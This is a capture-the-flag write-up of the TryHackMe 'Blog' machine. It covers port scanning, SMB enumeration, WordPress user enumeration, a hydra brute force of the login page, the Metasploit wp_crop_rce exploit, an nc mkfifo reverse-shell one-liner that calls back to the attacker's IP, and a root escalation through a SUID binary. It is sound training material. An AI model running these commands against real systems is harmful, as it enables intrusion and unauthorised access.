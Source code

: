 ```yaml
---
description: Billy Joel made a Wordpress blog! - by  Nameless0ne
icon: browser
---
```


# Blog

***

Platform : [Tryhackme](https://tryhackme.com/room/blog)

Difficulty: Medium

Machine Type: Linux

***

### Scanning and Enumeration

Nmap scan results:

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ sudo nmap -Pn -A -p- --min-rate 3000 blog.thm -oN nmap.full
[sudo] password for ghost: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-29 23:33 EDT
Nmap scan report for 10.201.71.207
Host is up (0.21s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 5 hops
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2025-08-30T03:34:18+00:00
| smb2-time: 
|   date: 2025-08-30T03:34:18
|_  start_date: N/A
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

```

As we can see port 22(ssh), 80(http), 139(netbios-ssn) and port 445(smb) is open.

Nmap scan also revealed, there is some kind of WordPress(5.0) site with title 'Billy Joel's IT Blog' is hosted on port 80. But first of all we can check for shares present and accessible to us via smb port 445.

At first, I listed all shares of the target machine via smbclient.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ smbclient -L '/10.201.71.207' -U ''
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

From all those 3 shares, 'billySMB' look's a little bit suspicious and so I connected to it and downloaded

all files that were hosted there.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ smbclient '//10.201.71.207/BillySMB' -U ''
```

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

Checked all those 3 files one by one:

<details>

<summary>Alice-White-Rabbit.jpg</summary>

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

I tried to extract file with steghide, if any present hidden inside that image.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ steghide extract -sf Alice-White-Rabbit.jpg
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

Yeah, there was a file hidden inside that image, but it's content shows that I am in a rabbit hole.

Nothing interesting here.

</details>

<details>

<summary>tswift.mp4</summary>

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

Just a mp4 video file of taylor swift song and with no hints. Again a rabbit hole.

</details>

<details>

<summary>check-this.png</summary>

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

When I scanned this QR with my phone, I got redirected to a song by billy joel. Again a rabbit hole, nothing of our interest.

</details>

Looking at all those files showed, SMB port was just a rabbit hole and nothing of our interest here, not even a hint.

Next I moved on to port 80, where a blog website hosted using WordPress CMS.

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

Login page was also present on `http://blog.thm/wp-login.php`

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

As this website was built using WordPress, I instantly enumerated it using wpscan for usernames, vulnerable plugins, vulnerable themes etc.

***

### WordPress Dashboard access as kwheel

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ wpscan --url "blog.thm" -e u, vp, vt --no-update
```

And I got 2 valid usernames - <mark style="color:yellow;">kwheel</mark> and <mark style="color:yellow;">bjoel</mark>

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

For confirmation, I also checked them on login page by entering random password for them.&#x20;

<figure><img src="../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Error: The password you entered for the username kwheel is incorrect. Lost your password?
{% endhint %}

Which means username kwheel is valid.

Next, I brute forced the password for kwheel user using hydra and found a valid password.

```
┌──(ghost㉿kali)-[~/tryhackme/blog]
└─$ hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" 
```

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

Tried to log on WordPress login page with that found credentials and logged in as kwheel.

<figure><img src="../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

***

### Shell as www-data

I searched for potential exploit on google for that particular version of WordPress 5.0 and there I found a public Metasploit exploit available on [exploit-db](https://www.exploit-db.com/exploits/46662) for that version of WordPress.

{% embed url="https://www.exploit-db.com/exploits/46662" %}

I searched for that crop-image module through msfconsole and found that module.

<figure><img src="../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

I used that module and set some of the options needed to run that payload successfully.

```
msf6 exploit(multi/http/wp_crop_rce) > set LHOST <kali-machine-IP>
LHOST => 10.17.87.131
msf6 exploit(multi/http/wp_crop_rce) > set RHOSTS blog.thm
RHOSTS => blog.thm
msf6 exploit(multi/http/wp_crop_rce) > set PASSWORD REDACTED
PASSWORD => cutiepie1
msf6 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf6 exploit(multi/http/wp_crop_rce) > run
```

Running that module provided me with a meterpreter shell.

<figure><img src="../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

I created a reverse shell file inside /tmp folder of target machine. Triggering that shell there provided me with a reverse shell connection and a better shell then previous one.

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.17.87.131 4445 >/tmp/f' > rev.sh
chmod +x rev.sh
./rev.sh
```

<figure><img src="../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

***

### Shell as Root

There was a fake user.txt present inside bjoel's home directory.

<figure><img src="../../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

Next, I tried multiple steps to gain higher privileges like password resuse, connecting to mysql database through the password I found inside wp-config.php file , but that didn't worked.

While enumerating for SUID files, I found an interesting binary <mark style="color:red;">/usr/bin/checker</mark> which was owned by root.

```
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

I tried running that binary and got a message - <mark style="color:yellow;">Not an Admin</mark>

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Next, I tried running it with <mark style="color:red;">`ltrace`</mark> to get more detail about it's running process.

{% hint style="info" %}
`ltrace` is a command-line debugging and diagnostic utility in Linux. Its primary function is to trace and display the calls made by a userspace application to shared libraries. It achieves this by intercepting and recording the dynamic library calls and the signals received by the traced process.
{% endhint %}

<figure><img src="../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Looks like it's checking value of environment variable 'admin' if it's nil (or not present) then , it is just printing 'Not an Admin'. And what if we set our environment variable 'admin' to 1.

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

Ok, now as we run that binary again, it will set our uid to 0(root) and will spawn a /bin/bash shell as root.

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Grabbed the root flag

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Now, just user flag is remaining, which I found using the following command:

```
find / -type f -name "user*" 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Grabbed the user flag

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

***

That's it for this machine.✅
